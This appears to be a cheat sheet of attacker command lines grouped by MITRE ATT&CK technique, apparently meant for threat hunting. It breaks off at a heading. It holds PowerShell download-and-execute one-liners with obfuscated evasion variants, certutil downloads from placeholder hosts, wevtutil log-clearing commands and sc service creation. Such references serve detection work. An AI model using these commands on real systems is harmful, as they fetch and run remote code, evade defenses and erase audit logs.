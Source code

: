 Create or Modify System Process: Windows Service [[T1543.003](https://attack.mitre.org/techniques/T1543/003/)]

```
sc <server> create <service_name> <option1> <option2>
sc <server> config <service_name> binpath= “<path_to_executable>”
sc <service_name> binpath= “<path_to_executable>”
```
<br>

Ingress Tool Transfer [[T1105](https://attack.mitre.org/techniques/T1105/)]

```
powershell.exe -exec bypass -C IEX ((New-Object Net.WebClient).downloadstring('http[:]//<url>/file.ext'))
powershell.exe -exec bypass -C IEX ((new-object net.webclient).downloadstring('http[:]//<url>/file.ext'))
powershell.exe -exec bypass -C IEX ((new-object net.tneilCbeW).daolnwoDstring('http[:]//<url>/file.ext'))
powershell.exe -exec bypass -C IN`V`o`Ke-eXp`ResSIOn (Ne`W-ob`ject Net.WebClient).DownloadString('http[:]//<url>/file.ext'))
powershell.exe Invoke-WebRequest -Uri "https[:]//<url>/file.ext" -OutFile c:\file.ext -UseBasicParsing"
powershell.exe iwr -Uri "https[:]//<url>/file.ext" -OutFile c:\file.ext -UseBasicParsing"
сmd.exe /c PowerShell iwr -Uri http://<ip_address>:<port>/file.ext -OutFile c:\file.ext -UseBasicParsing
PowerShell -Command $wc = New-Object System.Net.WebClient; $tempfile = [System.
IO.Path]::GetTempFileName(); $tempfile += '.<ext>'; $wc.DownloadFile('[URL]', $tempfile); & 
$tempfile ; Remove-Item -Force $tempfile
powershell.exe -exec bypass -C Invoke-WebRequest "http:/<ip_address>:<port>/file.ext" -OutFile "file.ext"
powershell.exe -C wget "http[:]//<ip_address>:<port>/file.ext" -OutFile "file.ext"
cmd.exe /c certutil -urlcache -split -f hxxp[:]//<ip_address>:<port>/file.ext $path\to\outfile\outfile.ext
```
<br>

Indicator Removal: Clear Windows Event Logs [[T1070.001](https://attack.mitre.org/techniques/T1070/001/)]

```
wevtutil cl system
wevtutil cl security
wevtutil cl application
```
<br>

Remote Services: SMB/Windows Admin Shares [[T1021.002](https://attack.mitre.org/techniques/T1021/002/)]

```
net use \\<remote ip> "<password>" /u:<domain>\<username>
```
<br>

Scheduled Task/Job: Scheduled Task [[T1053.005](https://attack.mitre.org/techniques/T1053/005/)]
